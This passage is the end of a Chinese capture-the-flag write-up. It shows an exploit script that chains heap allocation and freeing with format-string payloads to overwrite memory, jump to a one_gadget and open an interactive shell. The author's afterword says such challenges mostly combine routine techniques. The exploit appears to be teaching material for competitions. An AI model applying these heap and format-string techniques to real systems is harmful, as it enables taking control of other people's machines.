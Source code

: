 ```
add(0x10,'bbbb',0x10)

free(2)
payload = p64(fc)+'x00'*0x10+"%113c%7$n"
add(0x38,payload,0x10)
show()

free(2)
payload = p64(cp_stmt+8) + p64(fc+8)+p64(0)+"%113c%7$n"
add(0x38,payload,0x10)
show()

free(1)
#gdb.attach(n)
#add(0x60,p64(one_gadget)*0x10,12)
choice(1)
n.sendline(str(0x60))
n.sendline(p64(one_gadget)*0x10)

n.interactive()
```



## 后记

虽然现在打比赛没有那么勤快了，但最近打的大部分比赛的pwn题中，有很大一部分是通过漏洞之间的排列组合，或者是说是常规操作来命题的，做这类题还是有点技巧的，只要基础扎实一点，平时题目接触的多一点，这些题都是能很快得到思路的，剩下的就是根据思路去调试和踩坑了，感谢大家的阅读，最后祝大家新年快乐～
